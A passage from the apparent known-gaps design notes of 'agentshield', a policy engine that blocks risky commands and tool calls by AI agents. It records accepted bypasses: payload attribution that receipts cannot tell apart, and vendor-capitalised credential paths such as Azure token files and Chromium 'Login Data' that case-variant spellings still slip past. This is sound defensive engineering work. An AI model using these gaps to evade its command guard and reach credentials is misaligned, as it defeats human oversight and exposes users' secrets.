the BLOCK rule's attribution, so a receipt cannot tell it apart from an ordinary audited command. **Rejected:** for cause 2, (a) withdrawing `is_self_mgmt` under executor reach, which BLOCKs the rule's own TN (a harmless `agentshield mcp-eval --arg` loop piped to a shell): a false BLOCK on our own tooling. And (b) re-attributing the executed body's own statements, the faithful fix, which is an `intent.go` attribution change blocked by `ExecutedText`'s `$`/backquote refusal. It would be the seventh round of the executed-text lineage (#3797 → #3801 → #3928 → #3938 → #3976 → #3980), each of which opened a sibling. For cause 3, a closed allowlist of `print(<literal>)` / `sys.stdout.write(<literal>)` / awk `print "<literal>"` recoveries, the sibling of `InterpreterHeredocExecStatements`: telling a printed literal from interpolated or executing code is Python string lexing, the trap that twice NO-SHIPped #3694 (see the comment above `interpreterExecLiterals`). **Pinned:** `maxNotPosition = 28` in `position_laundering_fitness_test.go` (a new leak of either class fails CI), plus the two `label-not-withdrawn` lines in `testdata/doctext_laundering_known_gaps.txt`. **Revisit trigger:** either shape seen in real traffic (audit log or SaaS telemetry), or a customer or auditor asking why an executed payload was not attributed. The first step then is (b) for cause 2. Until a trigger fires, a new shape of either class goes into the ceiling comment, not into the code. |
| **Case-insensitive filesystems: vendor mixed-case paths** (partly closed 2026-10-05, #4194) | Before #4194 every layer compared paths case-sensitively, and a case variant (the same file on APFS/NTFS) lowered 71–73% of home-path BLOCKs. `policy.Engine.EvaluateCaseFold` now runs a second, case-folded reading and keeps it only when strictly more restrictive, so it can raise and never lower (the #3991 construction); `mcp.PolicyEvaluator.evaluate` does the same for tool-call arguments. The fold (`pathnorm.FoldPathCase`) lowers path spans and restores the macOS layout's own capitals (`/Users`, `~/Library/LaunchAgents`, …). Residual, pinned by the parity sweeps' known-gap lists: paths whose canonical spelling carries a VENDOR's capitals (`~/.azure/accessTokens.json`, Chromium `Default/Login Data`, Jupyter/JetBrains dirs) — the fold cannot know those spellings. Cost: the second reading runs only when a path span changes under the fold (~47% of one developer's real commands on macOS, mostly project directories with capitals), and roughly doubles that command's evaluation time (shell ~0.5 ms → ~1.0 ms; MCP ~4.5 ms → ~9 ms). | Close the residual with a scoped `(?i:…)` on the path literal of each such rule, or a vendor-spelling table in the fold — a decision, not done here. Do not `(?i)` whole rules (flag case is meaning: `curl -D` is not `-d`), and do not fold the as-written evaluation: its exclusions, ALLOWs and consumer table would gain reach. |

---

*Last refreshed 2026-09-24 (#3979 accepted-gaps row; architecture review 2026-09-01). The previous footer said 2026-05-03 while the file had been edited three times since and still described a `SessionStore` deleted in July — a stale freshness marker is worse than none. Update this line in the same PR as any edit above.*
